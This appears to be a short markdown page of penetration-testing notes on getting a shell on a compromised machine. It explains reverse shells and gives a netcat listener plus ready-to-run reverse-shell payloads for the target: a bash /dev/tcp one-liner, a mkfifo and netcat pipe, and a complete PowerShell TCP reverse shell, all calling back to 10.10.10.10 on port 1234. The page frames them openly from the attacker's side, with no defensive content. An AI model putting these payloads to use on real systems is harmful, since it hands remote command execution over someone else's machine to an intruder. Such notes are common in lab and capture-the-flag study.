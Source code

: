 # Why get a shell?

Once you have a system comprised, you dont want to have to configureand execute the same exploit to return to the system. Using networking protocols like ssh for Linux or WinRm for windows can get you a command line interface for an ip, but you will need credentials for that. Finding a service running on a system that is vunerable to opening shells can leave the attacker with a convenient point of entry back the to target.


# Reverse Shell
If you find a system that us vulnerable to remote code execution, you execute commands on the target machine to connect back to your machine. On your machine you use netcat to listen on a port, then on the target machine you execute a payload for a windows shell or linux shell

Commands to run on your machine:

``` bash 

nc -lvnp <port-number> 
```

-l stands for listen, v is for verbose so netcat will print outpur updating us on the state of the connection, n blocks DNS resolution so our machine doesnt try to connect to a DNS server and translate the incoming ip to a domain name and waste time, and p allows you to specify a port.

Commands to run on target machine:

	lunix shells:
``` bash

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

	or

``` bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

	windows shell:

``` powershell

	powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```


